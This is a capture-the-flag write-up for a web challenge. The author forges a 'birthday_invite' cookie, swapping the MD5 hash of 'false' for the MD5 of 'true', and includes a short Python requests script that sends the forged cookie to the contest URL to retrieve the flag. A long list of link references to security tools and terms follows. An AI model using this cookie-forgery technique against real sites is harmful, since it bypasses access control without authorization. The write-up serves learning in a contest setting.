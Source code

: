 A present for her Birthday!
========

> John Hammond | Sunday, January 27th, 2017

--------------------------------------------

> Tags: Web
> 
> Yesterday was Animesh's best friend's (at least he thinks so) birthday. Animesh had bought a nice present for her, but she didn't even invite Animesh :-( . He came to know that only the people who have the secret key for the birthday party can get the invitation the party. Unfortunately Animesh does not have that key, but he know that the key can be found [here](https://felicity.iiit.ac.in/contest/extra/birthday/). Can you help Animesh find the key so that he can attend her birthday party and give her the sweetest present he bought for her.

This was another web challenge.

![webpage.png](webpage.png)


The link that the challenge prompt included brought me to a page with no real content, just the message "Hi newuser". I took a look at the source to see if it was hiding anything else, but no, nothing.

``` html
Hi newuser
```

So I started to look for the low-hanging fruit. Since this was a web challenge, the first spot to check was cookies. I use [Cookie Manager+] for [Firefox].


Sure enough, I saw this cookie called `birthday_invite`. It has some strange hex value: `68934a3e9455fa72420237eb05902327`

![cookies.png](cookies.png)


Initially I tried to decode this value, but that was the wrong train of thought:


``` python
# Python 2.7.12
>>> '68934a3e9455fa72420237eb05902327'.decode('hex')
"h\x93J>\x94U\xfarB\x027\xeb\x05\x90#'"
```

There was nothing useful there. This wasn't the flag or anything, ... so what was it?

I put this challenge away for a little bit and lurked around the [IRC] channel until something said something that made me think.

... _What else is made up of hex values?_ ___Oh! Hashes!___

I threw this at online [hash] cracker to see if it would hit. Sure enough: the value was `false`.

![hash.png](hash.png)

Well, hmm, what would happen if we changed this to `true`? It was an [MD5][MD5] [hash], so we could just change the [cookie] value to a [hash] of the string  `"false"`.

I got this value real quick in [Python]:

``` python
>>> import md5
>>> hasher = md5.md5()
>>> hasher.update("true")
>>> hasher.hexdigest()
'b326b5062b2f0e69046810717534cb09'
```

Now we have this new value and we can change it in the [Cookie Manager+]. Reload the page to see what happens, and...

![flag.png](flag.png)

We got it!

I actually crafted a small [`get_flag.py`](get_flag.py) script for this to retrieve the flag with just one command. The code is below:

``` python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author: john
# @Date:   2017-01-26 12:04:27
# @Last Modified by:   john
# @Last Modified time: 2017-01-26 12:07:21


import requests
import md5

# The cookie that you see `birthday_invite` is the MD5 hash of the word 'false'.
# So what happens if we just change that to `true?`

m = md5.md5()

m.update('true')
true = m.hexdigest()

url = 'https://felicity.iiit.ac.in/contest/extra/birthday/'

r = requests.get(url, cookies ={ "birthday_invite": true })

print r.text
```

__The flag was: `6bdfde3455a864cde19362cc01da125f`__



[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[man pages]: https://en.wikipedia.org/wiki/Man_page
[man]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[operating system]:https://en.wikipedia.org/wiki/Operating_system
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[port]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[ports]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[distribution]:https://en.wikipedia.org/wiki/Linux_distribution
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[standard output]: https://en.wikipedia.org/wiki/Standard_streams
[standard input]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[redirect]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[pipe]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[piped]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[piping]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[hexadecimal]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[.zip]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[brute-force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[command line]: https://en.wikipedia.org/wiki/Command-line_interface
[command-line]: https://en.wikipedia.org/wiki/Command-line_interface
[cli]: https://en.wikipedia.org/wiki/Command-line_interface
[PHP]: https://php.net/
[URL]: https://en.wikipedia.org/wiki/Uniform_Resource_Locator
[TamperData]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[Firefox]: https://www.mozilla.org/en-US/firefox/new/?product=firefox-3.6.8&os=osx%E2%8C%A9=en-US
[Caesar Cipher]: https://en.wikipedia.org/wiki/Caesar_cipher
[Google Reverse Image Search]: https://www.google.com/imghp
[PicoCTF]: https://picoctf.com/
[JavaScript]: https://www.javascript.com/
[base64]: https://en.wikipedia.org/wiki/Base64
[client-side]: https://en.wikipedia.org/wiki/Client-side_scripting
[client side]: https://en.wikipedia.org/wiki/Client-side_scripting
[javascript:alert]: http://www.w3schools.com/js/js_popup.asp
[Java]: https://www.java.com/en/
[2147483647]: https://en.wikipedia.org/wiki/2147483647_%28number%29
[XOR]: https://en.wikipedia.org/wiki/Exclusive_or
[XOR cipher]: https://en.wikipedia.org/wiki/XOR_cipher
[quipqiup.com]: http://www.quipqiup.com/
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[pdfimages]: http://linux.die.net/man/1/pdfimages
[ampersand]: https://en.wikipedia.org/wiki/Ampersand
[URL encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[URL-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[endianness]: https://en.wikipedia.org/wiki/Endianness
[ASCII]: https://en.wikipedia.org/wiki/ASCII
[struct]: https://docs.python.org/2/library/struct.html
[pcap]: https://en.wikipedia.org/wiki/Pcap
[packet capture]: https://en.wikipedia.org/wiki/Packet_analyzer
[HTTP]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol
[Wireshark filters]: https://wiki.wireshark.org/DisplayFilters
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[Assembly Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language#Syntax
[Intel Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language
[Intel or AT&T]: http://www.imada.sdu.dk/Courses/DM18/Litteratur/IntelnATT.htm
[AT&T syntax]: https://en.wikibooks.org/wiki/X86_Assembly/GAS_Syntax
[GET request]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[GET requests]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[IP Address]: https://en.wikipedia.org/wiki/IP_address
[IP Addresses]: https://en.wikipedia.org/wiki/IP_address
[MAC Address]: https://en.wikipedia.org/wiki/MAC_address
[session]: https://en.wikipedia.org/wiki/Session_%28computer_science%29
[Cookie Manager+]: https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
[hexedit]: http://linux.die.net/man/1/hexedit
[Google]: http://google.com/
[Scapy]: http://www.secdev.org/projects/scapy/
[ARP]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[UDP]: https://en.wikipedia.org/wiki/User_Datagram_Protocol
[SQL injection]: https://en.wikipedia.org/wiki/SQL_injection
[sqlmap]: http://sqlmap.org/
[sqlite]: https://www.sqlite.org/
[MD5]: https://en.wikipedia.org/wiki/MD5
[OpenSSL]: https://www.openssl.org/
[Burpsuite]:https://portswigger.net/burp/
[Burpsuite.jar]:https://portswigger.net/burp/
[Burp]:https://portswigger.net/burp/
[NULL character]: https://en.wikipedia.org/wiki/Null_character
[Format String Vulnerability]: http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
[printf]: http://pubs.opengroup.org/onlinepubs/009695399/functions/fprintf.html
[argument]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[arguments]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameter]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameters]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[Vortex]: http://overthewire.org/wargames/vortex/
[socket]: https://docs.python.org/2/library/socket.html
[file descriptor]: https://en.wikipedia.org/wiki/File_descriptor
[file descriptors]: https://en.wikipedia.org/wiki/File_descriptor
[Forth]: https://en.wikipedia.org/wiki/Forth_%28programming_language%29
[github]: https://github.com/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP slide]:https://en.wikipedia.org/wiki/NOP_slide
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[ash]:https://en.wikipedia.org/wiki/Almquist_shell
[dash]: https://en.wikipedia.org/wiki/Almquist_shell
[shell]: https://en.wikipedia.org/wiki/Shell_%28computing%29
[pwntools]: https://github.com/Gallopsled/pwntools
[colorama]: https://pypi.python.org/pypi/colorama
[objdump]: https://en.wikipedia.org/wiki/Objdump
[UPX]: http://upx.sourceforge.net/
[64-bit]: https://en.wikipedia.org/wiki/64-bit_computing
[breakpoint]: https://en.wikipedia.org/wiki/Breakpoint
[stack frame]: http://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Mips/stack.html
[format string]: http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
[format specifiers]: http://web.eecs.umich.edu/~bartlett/printf.html
[format specifier]: http://web.eecs.umich.edu/~bartlett/printf.html
[variable expansion]: https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html
[base pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[dmesg]: https://en.wikipedia.org/wiki/Dmesg
[Android]: https://www.android.com/
[.apk]:https://en.wikipedia.org/wiki/Android_application_package
[decompiler]: https://en.wikipedia.org/wiki/Decompiler
[decompile Java code]: http://www.javadecompilers.com/
[jadx]: https://github.com/skylot/jadx
[.img]: https://en.wikipedia.org/wiki/IMG_%28file_format%29
[binwalk]: http://binwalk.org/
[JPEG]: https://en.wikipedia.org/wiki/JPEG
[JPG]: https://en.wikipedia.org/wiki/JPEG
[disk image]: https://en.wikipedia.org/wiki/Disk_image
[foremost]: http://foremost.sourceforge.net/
[eog]: https://wiki.gnome.org/Apps/EyeOfGnome
[function pointer]: https://en.wikipedia.org/wiki/Function_pointer
[machine code]: https://en.wikipedia.org/wiki/Machine_code
[compiled language]: https://en.wikipedia.org/wiki/Compiled_language
[compiler]: https://en.wikipedia.org/wiki/Compiler
[scripting language]: https://en.wikipedia.org/wiki/Scripting_language
[scripts]: https://en.wikipedia.org/wiki/Scripting_language
[script]: https://en.wikipedia.org/wiki/Scripting_language
[shell-storm.org]: http://shell-storm.org/
[shell-storm]:http://shell-storm.org/
[shellcode database]: http://shell-storm.org/shellcode/
[gdb-peda]: https://github.com/longld/peda
[x86]: https://en.wikipedia.org/wiki/X86
[Intel x86]: https://en.wikipedia.org/wiki/X86
[sh]: https://en.wikipedia.org/wiki/Bourne_shell
[/bin/sh]: https://en.wikipedia.org/wiki/Bourne_shell
[SANS]: https://www.sans.org/
[Holiday Hack Challenge]: https://holidayhackchallenge.com/
[USCGA]: http://uscga.edu/
[United States Coast Guard Academy]: http://uscga.edu/
[US Coast Guard Academy]: http://uscga.edu/
[Academy]: http://uscga.edu/
[Coast Guard Academy]: http://uscga.edu/
[Hackfest]: https://www.sans.org/event/pen-test-hackfest-2015
[SSID]: https://en.wikipedia.org/wiki/Service_set_%28802.11_network%29
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[Python:base64]: https://docs.python.org/2/library/base64.html
[OpenWRT]: https://openwrt.org/
[node.js]: https://nodejs.org/en/
[MongoDB]: https://www.mongodb.org/
[Mongo]: https://www.mongodb.org/
[SuperGnome 01]: http://52.2.229.189/
[Shodan]: https://www.shodan.io/
[SuperGnome 02]: http://52.34.3.80/
[SuperGnome 03]: http://52.64.191.71/
[SuperGnome 04]: http://52.192.152.132/
[SuperGnome 05]: http://54.233.105.81/
[Local file inclusion]: http://hakipedia.com/index.php/Local_File_Inclusion
[LFI]: http://hakipedia.com/index.php/Local_File_Inclusion
[PNG]: http://www.libpng.org/pub/png/
[.png]: http://www.libpng.org/pub/png/
[Remote Code Execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[GNU]: https://www.gnu.org/
[regular expression]: https://en.wikipedia.org/wiki/Regular_expression
[regular expressions]: https://en.wikipedia.org/wiki/Regular_expression
[uniq]: https://en.wikipedia.org/wiki/Uniq
[sort]: https://en.wikipedia.org/wiki/Sort_%28Unix%29
[binary data]: https://en.wikipedia.org/wiki/Binary_data
[binary]: https://en.wikipedia.org/wiki/Binary
[automation is divine]: https://www.youtube.com/watch?v=36AA3JGRP9s
[repos]:https://help.ubuntu.com/community/Repositories/Ubuntu
[repo]:https://help.ubuntu.com/community/Repositories/Ubuntu
[repository]:https://help.ubuntu.com/community/Repositories/Ubuntu
[repositories]: https://help.ubuntu.com/community/Repositories/Ubuntu
[hex dump]: https://en.wikipedia.org/wiki/Hex_dump
[hexdump]: https://en.wikipedia.org/wiki/Hex_dump
[xxd]: http://linuxcommand.org/man_pages/xxd1.html
[mkdir]: https://en.wikipedia.org/wiki/Mkdir
[file]: https://en.wikipedia.org/wiki/File_%28command%29
[gzip]: http://www.gzip.org/
[file extension]: https://en.wikipedia.org/wiki/Filename_extension
[bzip]: http://www.bzip.org/
[bzip2]: http://www.bzip.org/
[tar]: https://en.wikipedia.org/wiki/Tar_%28computing%29
[tar command]: http://linuxcommand.org/man_pages/tar1.html
[private key]: https://help.ubuntu.com/community/SSH/OpenSSH/Keys
[s_client]: https://www.openssl.org/docs/manmaster/apps/s_client.html
[nmap]: https://nmap.org/
[IP address]: https://en.wikipedia.org/wiki/IP_address
[RSA]: https://en.wikipedia.org/wiki/RSA_(cryptosystem)
[ssh private key]: https://help.ubuntu.com/community/SSH/OpenSSH/Keys
[file permissions]: https://www.linux.com/learn/understanding-linux-file-permissions
[octal file permission]: http://www.cyberciti.biz/faq/how-linux-file-permissions-work/
[octal file permissions]: http://www.cyberciti.biz/faq/how-linux-file-permissions-work/
[chmod]: https://en.wikipedia.org/wiki/Chmod
[diff]: http://man7.org/linux/man-pages/man1/diff.1.html
[.bashrc]: http://unix.stackexchange.com/questions/129143/what-is-the-purpose-of-bashrc-and-how-does-it-work
[bashrc]: http://unix.stackexchange.com/questions/129143/what-is-the-purpose-of-bashrc-and-how-does-it-work
[setuid]: https://en.wikipedia.org/wiki/Setuid
[user id]: https://en.wikipedia.org/wiki/User_identifier
[effective user id]: https://en.wikipedia.org/wiki/User_identifier#Effective_user_ID
[cron]: https://en.wikipedia.org/wiki/Cron
[file extension]: https://en.wikipedia.org/wiki/Filename_extension
[file extensions]: https://en.wikipedia.org/wiki/Filename_extension
[bash script]: https://linuxconfig.org/bash-scripting-tutorial
[bash script]: https://linuxconfig.org/bash-scripting-tutorial
[bash scripts]: https://linuxconfig.org/bash-scripting-tutorial
[shebang line]: https://en.wikipedia.org/wiki/Shebang_(Unix)
[she-bang line]: https://en.wikipedia.org/wiki/Shebang_(Unix)
[sha-bang line]: https://en.wikipedia.org/wiki/Shebang_(Unix)
[shabang line]: https://en.wikipedia.org/wiki/Shebang_(Unix)
[sha bang line]: https://en.wikipedia.org/wiki/Shebang_(Unix)
[nano]: https://en.wikipedia.org/wiki/GNU_nano
[text editor]: https://en.wikipedia.org/wiki/Text_editor
[whoami]: https://en.wikipedia.org/wiki/Whoami
[echo]: https://en.wikipedia.org/wiki/Echo_(command)
[md5sum]: http://www.tutorialspoint.com/unix_commands/md5sum.htm
[checksum]: https://en.wikipedia.org/wiki/Checksum
[hash]: https://en.wikipedia.org/wiki/Cryptographic_hash_function
[cut]: https://en.wikipedia.org/wiki/Cut_(Unix)
[daemon]: https://en.wikipedia.org/wiki/Daemon_(computing)
[temporary directory]: https://en.wikipedia.org/wiki/Temporary_folder
[temp directory]: https://en.wikipedia.org/wiki/Temporary_folder
[temp folder]: https://en.wikipedia.org/wiki/Temporary_folder
[temporary folder]: https://en.wikipedia.org/wiki/Temporary_folder
[seq]: http://www.cyberciti.biz/tips/tag/seq-command
[/etc/passwd]: https://en.wikipedia.org/wiki/Passwd#Password_file
[more]: https://en.wikipedia.org/wiki/More_(command)
[vi]: https://en.wikipedia.org/wiki/Vi
[vim]: http://www.vim.org/
[caesar cipher]: https://en.wikipedia.org/wiki/Caesar_cipher
[vignere cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[substitution cipher]: https://en.wikipedia.org/wiki/Substitution_cipher
[DNA]: https://en.wikipedia.org/wiki/Nucleic_acid_sequence
[Python bytecode]: http://security.coverity.com/blog/2014/Nov/understanding-python-bytecode.html
[uncompyle]: https://github.com/gstarnberger/uncompyle
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2
[marshal]: https://docs.python.org/2/library/marshal.html
[IDLE]: https://en.wikipedia.org/wiki/IDLE
[bytecode]: http://whatis.techtarget.com/definition/bytecode
[dis]: https://docs.python.org/2/library/dis.html
[rot13]: https://en.wikipedia.org/wiki/ROT13
[calendar]: https://docs.python.org/2/library/calendar.html
[datetime]: https://docs.python.org/2/library/datetime.html
[primefac]: https://pypi.python.org/pypi/primefac
[IRC]: https://en.wikipedia.org/wiki/Internet_Relay_Chat
[Internet Relay Chat]: https://en.wikipedia.org/wiki/Internet_Relay_Chat
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
